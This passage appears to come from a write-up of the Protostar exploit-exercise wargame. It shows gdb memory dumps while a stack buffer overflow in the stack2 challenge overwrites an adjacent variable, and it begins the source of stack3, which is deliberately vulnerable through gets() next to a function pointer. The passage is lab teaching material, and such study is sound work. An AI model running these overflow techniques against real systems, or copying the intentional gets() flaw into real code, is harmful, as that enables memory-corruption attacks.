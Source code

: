 After the strcpy, the 0x41's can be easily located. The first 0x00000000 at ...f768 is the value of the variable that needs to be modified. Calculating the number of bytes to overflow into that particular stack location, enter the A's and then 0xd0a0d0a using python and re run the program after storing the value as the env variable.

```
(gdb) r
Starting program: /opt/protostar/bin/stack2
Breakpoint 1, 0x080484df in main (argc=1, argv=0xbffff804) at stack2/stack2.c:20
20        stack2/stack2.c: No such file or directory.
        in stack2/stack2.c
(gdb) x/30wx $esp
0xbffff6f0:        0xbffff708        0xbffff9c2        0xb7fff8f8        0xb7f0186e
0xbffff700:        0xb7fd7ff4        0xb7ec6165        0xbffff718        0xb7eada75
0xbffff710:        0xb7fd7ff4        0x08049748        0xbffff728        0x08048358
0xbffff720:        0xb7ff1040        0x08049748        0xbffff758        0x08048549
0xbffff730:        0xb7fd8304        0xb7fd7ff4        0x08048530        0xbffff758
0xbffff740:        0xb7ec6365        0xb7ff1040        0x00000000        0xbffff9c2
0xbffff750:        0x08048530        0x00000000        0xbffff7d8        0xb7eadc76
0xbffff760:        0x00000001        0xbffff804
(gdb) c
Continuing.
Breakpoint 2, main (argc=1, argv=0xbffff804) at stack2/stack2.c:22
22        in stack2/stack2.c
(gdb) x/30wx $esp
0xbffff6f0:        0xbffff708        0xbffff9c2        0xb7fff8f8        0xb7f0186e
0xbffff700:        0xb7fd7ff4        0xb7ec6165        0x41414141        0x41414141
0xbffff710:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff720:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff730:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff740:        0x41414141        0x41414141        0x0d0a0d0a        0xbffff900
0xbffff750:        0x08048530        0x00000000        0xbffff7d8        0xb7eadc76
0xbffff760:        0x00000001        0xbffff804
```

The appropriate location is thus overwritten. Continuing the execution, the desired result is obtained.

```
(gdb) c
Continuing.
you have correctly modified the variable
Program exited with code 051.
```

---

## Stack 3

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void win()
{
    printf("code flow successfully changed\\\\n");
}
int main(int argc, char **argv)
{
    volatile int (*fp)();//*
    char buffer[64];
    fp = 0;
    gets(buffer);
    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\\\\n", fp);
```